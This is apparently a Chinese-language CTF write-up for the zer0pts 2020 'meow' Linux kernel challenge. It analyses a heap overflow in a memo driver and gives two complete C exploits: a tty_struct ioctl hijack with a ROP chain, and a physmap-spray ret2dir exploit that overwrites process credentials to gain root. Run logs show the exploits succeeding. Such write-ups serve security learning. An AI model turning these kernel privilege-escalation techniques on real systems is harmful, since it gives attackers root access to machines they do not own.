

# 2020-zer0ptsCTF-meow


                                阅读量   
                                **693301**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    
                                                                                            


[](./img/202056/t01408547302793675b.jpg)


## 信息收集

start.sh qemu 启动脚本如下：

```
#!/bin/sh
qemu-system-x86_64 
    -m 256M 
    -kernel ./bzImage 
    -initrd ./rootfs.cpio 
    -append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 kaslr quiet" 
    -cpu kvm64,+smep,+smap 
    -monitor /dev/null 
    -nographic -s
```

可见开启了 SMEP、SMAP、KASLR；

参数 `-cpu kvm64,+smep` 表示开启了KPTI，关于查看KPTI是否开启还有如下方法：

```
/ # dmesg | grep 'page table'
[    0.712632] Kernel/User page tables isolation: enabled
/ # cat /proc/cpuinfo | grep pti
fpu_exception    : yes
flags        : ... pti smep smap
```

提取文件系统后查看目标驱动和内核保护：

```
$ checksec vmlinux
[*] '/home/ivan/kernel/meow/vmlinux'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0xffffffff81000000)
    RWX:      Has RWX segments
$ checksec memo.ko
[*] '/home/ivan/kernel/meow/memo.ko'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x0)
```

init 系统启动脚本如下：

```
#!/bin/sh
# devtmpfs does not get automounted for initramfs
/bin/mount -t proc proc /proc
/bin/mount -t sysfs sysfs /sys
/bin/mount -t devtmpfs devtmpfs /dev
/sbin/mdev -s
mkdir -p /dev/pts
mount -vt devpts -o gid=4,mode=620 none /dev/pts
chmod 666 /dev/ptmx
echo 1 &gt; /proc/sys/kernel/kptr_restrict
echo 1 &gt; /proc/sys/kernel/dmesg_restrict

chown root:root /flag
chmod 400 /flag
insmod /root/memo.ko
mknod -m 666 /dev/memo c `grep memo /proc/devices | awk '{print $1;}'` 0

echo -e "nBoot took $(cut -d' ' -f1 /proc/uptime) secondsn"
cat /root/banner

setsid /bin/cttyhack setuidgid 1000 /bin/sh

umount /proc
umount /sys
poweroff -d 0 -f
```

可见开启了`kptr_restrict`并且禁用了`dmesg`

查看目标内核版本：

```
/ $ cat /proc/version
Linux version 4.19.98 (ptr@medium-pwn) (gcc version 8.3.0 (Buildroot 2019.11-git-00204-gc2417843c8)) #2 SMP Wed Feb 5 21:57:51 JST 2020
```


## 环境搭建

在用 `make menuconfig` 配置 `.config` 前，先用 `make defconfig` 创建一个默认配置的 `.config` 文件。否则 `make menuconfig` 会先在 `/boot/` 目录中查找之前的`.config`文件：

```
$ make menuconfig
scripts/kconfig/mconf  Kconfig
#
# using defaults found in /boot/config-5.3.0-40-generic
#
...
```


## 关键函数分析&amp;漏洞点

`mod_write`: 首先通过 `fd-&gt;f_pos`获取文件当前的读写位置，要求 `pos` 小于0x400，之后会以 `pos`为偏移向内核内存空间中写入给定长度的`buf` 数据。

```
unsigned __int64 __fastcall mod_write(__int64 fd, __int64 buf, unsigned __int64 ntype, _QWORD *offset)
{
  unsigned __int64 pos; // rdi
  unsigned __int64 result; // rax
  _QWORD *v6; // rbp
  unsigned __int64 v7; // rbx

  pos = *(_QWORD *)(fd + 104);                  // fd-&gt;f_pos
  result = 0LL;
  if ( pos &lt;= 0x3FF )
  {
    v6 = offset;
    v7 = ntype;
    if ( ntype &gt; 0x400 )
      v7 = 0x400LL - *offset;
    if ( copy_from_user(&amp;memo[pos], buf, v7) )
    {
      result = -14LL;
    }
    else
    {
      *v6 += v7;
      result = v7;
    }
  }
  return result;
}
```

`mod_llseek`：主要作用为更新 `fd-&gt;pos`的值，当 whence 为 1 时，将文件位置设置为当前位置加上偏移；当 whence 为 2 时，设置文件位置为堆块大小加上偏移字节。

```
signed __int64 __fastcall mod_llseek(__int64 fd, signed __int64 offset, int whence)
{
  signed __int64 result; // rax

  if ( whence == 1 )
  {
    result = offset + *(_QWORD *)(fd + 104);
  }
  else if ( whence == 2 )
  {
    result = offset + strlen(memo);
  }
  else
  {
    if ( whence )
      return -22LL;
    result = offset;
  }
  if ( result &lt; 0 )
    return -22LL;
  *(_QWORD *)(fd + 104) = result;
  return result;
}
```

漏洞点在两个读写函数，以 `mod_write()`为例，调用栈如下：

```
► f 0 ffffffffc0000010 mod_write
   f 1 ffffffff811b5f81 __vfs_write+49
   f 2 ffffffff811b6268 vfs_write+168
   f 3 ffffffff811b64e5 ksys_write+85
   f 4 ffffffff810024d3 do_syscall_64+67
   f 5 ffffffff81a00078 entry_SYSCALL_64+104
```

可见当 `mod_write()` 执行结束返回到 `ksys_write()` 时，正常情况下会调用 `file_pos_write()` 更新文件当前位置 `file-&gt;f_pos` 的值，代码如下：

```
//fs/read_write.c#L592
ssize_t ksys_write(unsigned int fd, const char __user *buf, size_t count)
{
    struct fd f = fdget_pos(fd);
    ssize_t ret = -EBADF;

    if (f.file) {
        loff_t pos = file_pos_read(f.file);
        ret = vfs_write(f.file, buf, count, &amp;pos);
        if (ret &gt;= 0)
            file_pos_write(f.file, pos);
        fdput_pos(f);
    }

    return ret;
}

//fs/read_write.c#L566
static inline void file_pos_write(struct file *file, loff_t pos)
{
    if ((file-&gt;f_mode &amp; FMODE_STREAM) == 0)
        file-&gt;f_pos = pos;
}
```

返回题目中的代码，可以发现：若第一次写入 0x3FF 大小数据 ，`fd-&gt;pos=0x3FF`，第二次写入时的 `fd-&gt;pos`值还是 0x3FF ，通过验证，而堆块大小为0x400，造成了堆溢出。可以通过 `mod_read()` ， `mod_write()` 实现越界读写。

> <p>在搭建环境时发现，若内核在编译前加上 `CONFIG_HARDENED_USERCOPY=y` ，则会在 `copy_from_user, copy_to_user` 前加上 `check_object_size(from, n, true);` 这样一个检查，作用是验证地址有效性、检查是否有堆栈或SLAB的越界读写。即使出现题目中的堆溢出，也只能造成crash，无法利用。<br>
编译前加上 `CONFIG_SLAB_FREELIST_HARDENED=y`，free_list中指针会以 `ptr ^ s-&gt;random ^ ptr_addr` 这种方式进行混淆，从而导致无法泄露堆地址；但该保护措施有缺陷可以绕过，详见参考[4]。</p>


## 方法一

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF"></a>利用思路

起初的思路是堆溢出修改 `tty_struct` 劫持 `ioctl` 指针，覆写cr4 关闭 SMEP、SMAP后，进行栈迁移直接ret2usr。但在编写 ROP chain 时发现当调用用户态代码的时候内核会报如下错误 ：`BUG: unable to handle kernel paging request at 0000000000400eaa`。关闭 KPTI 后，exp能成功执行。印象中的 KPTI 将用户空间页表与内核空间页表进行了隔离，但最终目的是为了防止用户空间获取内核数据。查看官方文档后（参考[5]），发现下面一段话：

> Another potential vulnerability comes about if the kernel can ever be manipulated into returning to user space without switching back to the sanitized PGD. Since the kernel-space PGD also maps user-space memory, such an omission could go unnoticed for some time. The response here is to map the user-space portion of the virtual address space as non-executable in the kernel PGD. Should user space ever start running with the wrong page tables, it will immediately crash as a result.

即在KPTI中，所有用户空间页面都以 NX （不可执行）映射到内核页面表中。 实现了与SMEP非常相似的功能。

虽然限制了不能执行用户空间的代码，但仍然可以将内核栈迁移到用户空间中 。这里只是为了获取 flag 的值，可以不用获得一个交互shell，只需将 flag 权限修改为 777 ，之后让程序 sleep 0x1000000 秒 ，这样做的好处是，就算程序在退出前崩溃也可以在 sleep 的时间内去获取 flag 值。:)

### <a class="reference-link" name="exp"></a>exp

```
#include &lt;stdio.h&gt;
#include &lt;stdarg.h&gt;
#include &lt;string.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;sched.h&gt;
#include &lt;errno.h&gt;
#include &lt;pty.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;sys/socket.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/syscall.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;sys/ioctl.h&gt;
#include &lt;sys/ipc.h&gt;
#include &lt;sys/sem.h&gt;


#define KERNELCALL __attribute__ ((regparm(3)))
void (* commit_creds)(void *) KERNELCALL;
size_t* (* prepare_kernel_cred)(void *) KERNELCALL;
size_t commit_creds_addr=0,prepare_kernel_cred_addr=0;

struct skewBuf{
    unsigned char padding;
    unsigned long vec[127];
    unsigned char pading[7];
} __attribute__((packed));

void info(const char *fmt, ...) {
    va_list args;
    va_start(args, fmt);
    fprintf(stdout, "[.] ");
    vfprintf(stdout, fmt, args);
    va_end(args);
}

void msg(const char *fmt, ...) {
    va_list args;
    va_start(args, fmt);
    fprintf(stdout, "[*] ");
    vfprintf(stdout, fmt, args);
    va_end(args);
}

void fail(const char *fmt, ...) {
    va_list args;
    va_start(args, fmt);
    fprintf(stdout, "[x] ");
    vfprintf(stdout, fmt, args);
    va_end(args);
    exit(1);
}

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
        //info("saving status...n");
        __asm__("mov user_cs, cs;"
                        "mov user_ss, ss;"
                        "mov user_sp, rsp;"
                        "pushf;"
                        "pop user_rflags;"
                        );
        //msg("status has been savedn");
}

void mod_write(int fd,void* buf,size_t nbyte){
    size_t result;
    //info("mod_write ... n");
    result = write(fd,buf,nbyte);
    if(result&lt;=0){
        fail("mod_write failed!n");
        exit(-1);
    }
}

void mod_llseek(int fd,off_t offset, int whence){
    size_t result;
    //info("mod_llseek ... n");
    result = lseek(fd,offset,whence);
    //msg("mod_llseek result:0x%lxn",result);
}


void mod_read(int fd,void *buf,size_t nbyte){
    size_t result;
    //info("mod_read ... n");
    result = read(fd,buf,nbyte);
    if(result&lt;=0){
        fail("mod_read failed!n");
        exit(-1);
    }
}

size_t vmlinux_base = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;
size_t raw_do_tty_hangup = 0xffffffff8140f6b0; 
size_t raw_commit_creds = 0xffffffff8107b8b0; 
size_t raw_prepare_kernel_cred = 0xffffffff8107bb50;
size_t raw_regcache_mark_dirty = 0xffffffff81588fd0;
size_t raw_x64_sys_chmod = 0xffffffff8119fcd0;
size_t raw_msleep = 0xffffffff810c4740;

size_t raw_pop_rdi = 0xffffffff81001268; //pop rdi; ret;
size_t raw_pop_rdx = 0xffffffff81043137; //pop rdx; ret;
size_t raw_pop_rcx = 0xffffffff8104c852; //pop rcx; ret;
size_t raw_mov_rdi_rax = 0xffffffff810cecce; //mov rdi, rax; cmp r8, rdx; jne 0x2cecb3; ret; 
size_t raw_pop_rax = 0xffffffff81023301;//pop rax; ret;
size_t raw_mov_rdi_rbx = 0xffffffff827862bc; //mov rdi, rbx; call rax;
size_t raw_pop_rsi = 0xffffffff81001b79; //pop rsi; ret;
size_t raw_push_rax =  0xffffffff81022353;//push rax; ret;
size_t raw_pop_rdi_call = 0xffffffff81f234e2; //pop rdi; call rcx;

size_t base_add(size_t addr){
    return addr - raw_vmlinux_base + vmlinux_base;
}

int main(){

    char tmp_buf[0x3ff];
    struct skewBuf buf;
    int i;
    size_t rop[0x50];
    char* flag_str = "/flag";

    save_status();
           size_t fd = open("/dev/memo",O_RDWR);
    if(fd == -1){
        fail("memo open failed!n");
    }

    memset(tmp_buf,'A',sizeof(tmp_buf));
    mod_write(fd,tmp_buf,sizeof(tmp_buf));

    mod_read(fd,&amp;buf,sizeof(buf));
    size_t heap_addr = buf.vec[0]-0x400;
    msg("leak heap addr: %pn",(void*)heap_addr);

    size_t tty_fd = open("/dev/ptmx",O_RDWR|O_NOCTTY);
    if(tty_fd == -1){
        fail("ptmx open failed!n");
    }

    mod_llseek(fd,0x3ff,0);
    mod_read(fd,&amp;buf,sizeof(buf));
    size_t do_tty_hangup = buf.vec[0x4a];
    vmlinux_base = do_tty_hangup - raw_do_tty_hangup + raw_vmlinux_base;
    msg("do_tty_hangup addr: %pn",(void*)do_tty_hangup);
    msg("vmlinux_base addr: %pn",(void*)vmlinux_base);

    mod_llseek(fd,0x3ff,0);
    size_t rop_base = heap_addr+0x2e0;
    buf.vec[3] = rop_base;
    buf.vec[0x2e0/8+0xc] = base_add(raw_regcache_mark_dirty);//ioctl
    buf.vec[0x20/8] = base_add(raw_mov_cr4_rdi);
    buf.vec[0x30/8] = 0x6f0;
    size_t xchg_eax_esp = base_add(raw_xchg_eax_esp);
    buf.vec[0x28/8] = xchg_eax_esp;

    size_t base = xchg_eax_esp &amp; 0xfffff000;
    if(base != mmap(base,0x3000,7,MAP_PRIVATE | MAP_ANONYMOUS,-1,0)){
        fail("mmap failed!n");
        exit(-1);
    }
    msg("base address:0x%llxn",base);
    size_t pop_rdi = base_add(raw_pop_rdi);
    size_t pop_rdx = base_add(raw_pop_rdx);
    size_t mov_rdi_rax = base_add(raw_mov_rdi_rax);
    size_t pop_rsi = base_add(raw_pop_rsi);

    i=0;
    rop[i++] = pop_rdi;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred_addr;
    rop[i++] = pop_rdx;
    rop[i++] = 0x100000001;
    rop[i++] = mov_rdi_rax;
    rop[i++] = commit_creds_addr;
    rop[i++] = pop_rdi;
    rop[i++] = 0xffffff9c;
    rop[i++] = pop_rsi;
    rop[i++] = flag_str;
    rop[i++] = pop_rdx;
    rop[i++] = 0777;
    rop[i++] = base_add(raw_x64_sys_chmod)+0xd;
    rop[i++] = pop_rdi;
    rop[i++] = 0x1000000;
    rop[i++] = base_add(raw_msleep);
    memcpy(xchg_eax_esp &amp; 0xffffffff,rop,sizeof(rop));

    mod_write(fd,&amp;buf,sizeof(buf));    
    ioctl(tty_fd,0,0);
    return 0;
}
```

运行效果如下：

```
ivan@ubuntu:~/kernel/meow$ sudo ./start.sh 
/ $ id
uid=1000 gid=1000 groups=1000
/ $ ls -al | grep flag
-r--------    1 root     root            28 Mar  8 09:26 flag
/ $ ./exp &amp;
/ $ [*] leak heap addr: 0xffff8aca0db56c00
[*] do_tty_hangup addr: 0xffffffffafe0f6b0
[*] vmlinux_base addr: 0xffffffffafa00000
[*] base address:0xafa12000
ls -al | grep flag
-rwxrwxrwx    1 root     root            28 Mar  8 09:26 flag
/ $ cat flag
zer0pts{*****CENSORED*****}
```


## 方法二

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF"></a>利用思路

另一种方法是总结参考[1]中作者思路，他找到两个gadget：

```
write_gadget: mov dword ptr [rdx], esi; ret; 
read_gadget: mov rax, qword ptr [rdx + 0x28]; ret;
```

可以将这两个 gadget 与劫持 `ioctl` 指针结合达到任意地址读写的目的。

具体步骤如下：
- 利用堆溢出漏洞修改 SLAB 堆指针，使得下次分配堆块到一个较低的地址；
- ret2dir，使用physmap spray 使得用户空间地址与内核空间地址映射出现重叠（即两块或者多块虚拟内存映射到同一块物理内存），之后打开 ptmx 设备使得该设备的 `tty_struct` 结构体落入重叠区域；遍历 physmap 找到该设备所在页，此时该页面大概率与用户空间地址重合；
- 之后修改 `ops` 指针到 `memo` 所在内存，并在其中构造 `tty_operations` 结构体；
- 请求 ptmx 创建一个pts；遍历 `init_task` 找到当前进程，通过任意地址读写修改当前进程 `cred` 结构改写uid值为0；
- 读取 flag 文件。
个人认为physmap spray 这个步骤可以省略，直接通过方法一的方式堆溢出修改 `tty_struct` 结构体即可。不过ret2dir 可以不用修改cr4寄存器达到绕过 SMEP/SMAP的目的。

### <a class="reference-link" name="exp"></a>exp

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;assert.h&gt;
#include &lt;string.h&gt;
#include &lt;pty.h&gt;
#include &lt;sys/fcntl.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;sys/ioctl.h&gt;

#define LOG(f_, ...) printf(("[*] " f_), __VA_ARGS__)
#define SPRAY_CNT 32*32*32 // 4K*32*32*32=128M
#define PAGESIZE 0x1000 //4k
#define TASKS_OFFSET 0x388
#define CRED_OFFSET 0x620
#define PID_OFFSET 0x488
void *sprayed_pages[SPRAY_CNT];
char zeropage[PAGESIZE];

int fd;
int slave_fd;
unsigned long kernel_base;
unsigned long r_gadget;
unsigned long w_gadget;
unsigned long init_task;
unsigned long setup_disble_smap;
unsigned long ftable[0x80];

struct skewBuf {
    unsigned char blank;
    unsigned long vec[127];
    unsigned char leftover[7];
}  __attribute__((packed));

int Open(const char *fname, int mode) {
    int fd = open(fname, mode);
    if (fd &lt; 0) {
        perror("open");
        exit(-1);
    }
    return fd;
}

size_t Read(int fd, void *buf, size_t nbytes) {
    size_t nb = read(fd, buf, nbytes);
    if (nb != nbytes) {
        perror("read");
        exit(-1);
    }
    return nb;
}

size_t Write(int fd, void *buf, size_t nbytes) {
    size_t nb = write(fd, buf, nbytes);
    if (nb != nbytes) {
        perror("write");
        exit(-1);
    }
    return nb;
}

void physmap_spray() {
    int i;
    void *mp;
    for (i = 0; i &lt; SPRAY_CNT; i++)
    {
        if ((mp = mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_POPULATE, -1, 0 )) == MAP_FAILED) {
            perror("mmap");
            exit(-1);
        }
        sprayed_pages[i] = mp;
    }    
}

unsigned long get_pfn(void *pg) {
    unsigned long pginfo;
    int fd = Open("/proc/self/pagemap", O_RDWR);
    if (lseek(fd, ((off_t)pg &gt;&gt; 12) * sizeof(pginfo), SEEK_SET) &lt; 0) {
        perror("lseek");
        exit(-1);
    }

    if (read(fd, &amp;pginfo, sizeof(pginfo)) &lt; 0) {
        perror("read");
        exit(-1);
    }
    close(fd);
    unsigned long pfn = pginfo &amp; 0x7fffffffffffff;
    return pfn;
}

void list_pfn() {
    int i;
    for (i = 0; i &lt; SPRAY_CNT; i++) {
        printf("PFN[%d] = %lxn", i, get_pfn(sprayed_pages[i]));
    }
}

void *page_hit() {
    int i;
    for (i = 0; i &lt; SPRAY_CNT; i++) {
        if (memcmp(sprayed_pages[i], zeropage, PAGESIZE)) {
            return sprayed_pages[i];
        }
    }
    return NULL;
}

int get_ptmx_slave(int ptmx_fd) {
    const char *pts_name;
    if (grantpt(ptmx_fd) &lt; 0) {
        perror("grantpt");
        exit(-1);
    }
    if (unlockpt(ptmx_fd) &lt; 0) {
        perror("unlockpt");
        exit(-1);
    }

    pts_name = (const char *)ptsname(ptmx_fd);
    return Open(pts_name, O_RDWR|O_NOCTTY);
}

unsigned int sys_ioctl(int fd, int cmd, unsigned long aux) {
    asm volatile("mov $16, %rax");
    asm volatile("syscall");
}

void write32(unsigned int what, unsigned long where) {
    ftable[0] = kernel_base + 0xffffffff81419300 - 0xffffffff80e00000;
    ftable[3] = kernel_base + 0xffffffff81418e60 - 0xffffffff80e00000;
    ftable[12] = w_gadget;//ioctl
    lseek(fd, 0, SEEK_SET);
    Write(fd, ftable, 0x400);
    ioctl(slave_fd, (what), (where)); 
}

unsigned int read32(unsigned long where) {
    ftable[0] = kernel_base + 0xffffffff81419300 - 0xffffffff80e00000;
    ftable[3] = kernel_base + 0xffffffff81418e60 - 0xffffffff80e00000;
    ftable[12] = r_gadget;
    lseek(fd, 0, SEEK_SET);
    Write(fd, ftable, 0x400);
    return sys_ioctl(slave_fd, 0x1, where - 0x28); 
}

void write64(unsigned long what, unsigned long where) {
    unsigned long part;
    part = what &amp; 0xFFFFFFFF;
    write32((unsigned int )part, where);
    part = what &gt;&gt; 32;
    write32((unsigned int )part, where + 4);
}

unsigned long read64(unsigned long where) {
    unsigned long p1, p2;
    p1 = read32(where);
    p2 = read32(where + 4);
    return p1 | (p2 &lt;&lt; 32);
}

int check_page(unsigned long addr) {

    unsigned long page[0x101];
    int i;

    for (i = 0; i &lt; 0x101; i++) {
        page[i] = read64(addr + i*8);
    }
    for (i = 0; i &lt; 0x100; i++) {
        if (((page[i] &amp; 0xff) != 0x67) || (!(page[i] &gt;&gt; 63))) {
            return 0;
        }
    }

    return page[0x100] == 0;
}

int main(int argc, char **argv) {

    char trash[0x3FF];
    struct skewBuf buf;
    int i;

    assert(sizeof(buf) == 0x400);
    memset(trash, 0xcc, sizeof(trash));

    // open the device
    fd = Open("/dev/memo", O_RDWR);

    // leak a SLAB address
    Write(fd, trash, sizeof(trash));
    Read(fd, &amp;buf, sizeof(buf));
    unsigned long heapAddr = buf.vec[0];
    LOG("Got a kernel heap leak: %pn", (void *)heapAddr);

    // overwrite the fd of next chunk to a 'guess'ed physmap address
    lseek(fd, 0x3FF, SEEK_SET);
    buf.vec[0] = heapAddr &amp; 0xffffffffff000000;
    LOG("tty_struct will be allocated at address: %pn", (void *)buf.vec[0]);
    Write(fd, &amp;buf, sizeof(buf));

    // physmap spray
    physmap_spray();

    // allocate a ptmx object, it will be allocated to userspace mmap pages
    int tty_fd = Open("/dev/ptmx", O_RDWR|O_NOCTTY);
    unsigned long*pg = page_hit();
    if (!pg) {
        puts("[-] failed to get a tty_struct allocated in one of our pages");
        exit(-1);
    }
    LOG("now page %p is synonymous with tty_struct of fd %dn", pg, tty_fd);
    // create fake fops
    // 0xffffffff810a0333: mov dword ptr [rdx], esi; ret; 
    // 0xffffffff81051543: mov rax, qword ptr [rdx + 0x28]; ret; 
    unsigned long fops = pg[3];
    kernel_base = fops - 0xffffffff81e65800 + 0xffffffff80e00000;
    w_gadget = kernel_base + 0xffffffff810a0333 - 0xffffffff80e00000;
    r_gadget = kernel_base + 0xffffffff81051543 - 0xffffffff80e00000;
    init_task = kernel_base + 0xFFFFFFFF82211740 - 0xffffffff80e00000;
    setup_disble_smap = kernel_base + 0xffffffff8a98f556 - 0xffffffff80e00000;

    for (i = 0; i &lt; 0x80; i++) {
        ftable[i] = 0xdead0000 + i;
    }

    ftable[0] = kernel_base + 0xffffffff81419300 - 0xffffffff80e00000;//tty_struct ptr
    ftable[3] = kernel_base + 0xffffffff81418e60 - 0xffffffff80e00000;//open
    ftable[4] = kernel_base + 0xffffffff814191a0 - 0xffffffff80e00000;//close
    lseek(fd, 0, SEEK_SET);
    Write(fd, ftable, 0x400);

    LOG("fops is located at: %pn", (void *)fops);
    LOG("kernel base: %pn", (void *)kernel_base);

    pg[3] = heapAddr - 0x800; // memo address

    // enjoy arbitrary read and write
    slave_fd = get_ptmx_slave(tty_fd);

    // read page offset base
    unsigned long cur = init_task, cred;
    unsigned int pid;
    unsigned int this_pid = getpid();
    while(1) {
        pid = read32(cur + PID_OFFSET);
        if (pid == this_pid) {
            cred = read64(cur + CRED_OFFSET);
            LOG("Found current process(pid=%d)'s cred struct %pn", pid, (void *)cred);
            LOG("original uid=%d, gid=%d. now escalating to rootn", read32(cred + 4), read32(cred + 8));
            write64(0x0, cred + 4);
            write64(0x0, cred + 12);
            write64(0x0, cred + 20);
            write64(0x0, cred + 28);
            LOG("now i am uid=%dn", getuid());
            break;
        }
        cur = read64(cur + TASKS_OFFSET) - TASKS_OFFSET;
    }

    char flag[0x100];
    FILE *fp = fopen("/flag", "r");
    if (!fp) {
        perror("fopen");
        exit(-1);
    }
    fgets(flag, sizeof(flag), fp);
    printf("flag: %sn", flag);

    return 0;
}
```

运行效果如下：

```
ivan@ubuntu:~/kernel/meow$ sudo ./start.sh 
/ $ ./exp
[*] Got a kernel heap leak: 0xffff88800daed000
[*] tty_struct will be allocated at address: 0xffff88800d000000
[*] now page 0x7fb11234c000 is synonymous with tty_struct of fd 4
[*] fops is located at: 0xffffffff81e65800
[*] kernel base: 0xffffffff80e00000
[*] Found current process(pid=1033)'s cred struct 0xffff88800ee56cc0
[*] original uid=1000, gid=1000. now escalating to root
[*] now i am uid=0
flag: zer0pts{*****CENSORED*****}
```


## 参考资料

[1] [https://pr0cf5.github.io/ctf/2020/03/09/the-plight-of-tty-in-the-linux-kernel.html](https://pr0cf5.github.io/ctf/2020/03/09/the-plight-of-tty-in-the-linux-kernel.html)<br>
[2] [https://nanxiao.me/en/why-doesnt-linux-device-driver-need-to-update-file-position-in-readwrite-functions/](https://nanxiao.me/en/why-doesnt-linux-device-driver-need-to-update-file-position-in-readwrite-functions/)<br>
[3] [https://cateee.net/lkddb/web-lkddb/HARDENED_USERCOPY.html](https://cateee.net/lkddb/web-lkddb/HARDENED_USERCOPY.html)<br>
[4] [https://blog.infosectcbr.com.au/2020/03/weaknesses-in-linux-kernel-heap.html](https://blog.infosectcbr.com.au/2020/03/weaknesses-in-linux-kernel-heap.html)<br>
[5] [https://lwn.net/Articles/741878/](https://lwn.net/Articles/741878/)<br>
[6] [https://github.com/pr0cf5/kernel-exploit-practice/tree/master/bypass-smep](https://github.com/pr0cf5/kernel-exploit-practice/tree/master/bypass-smep)
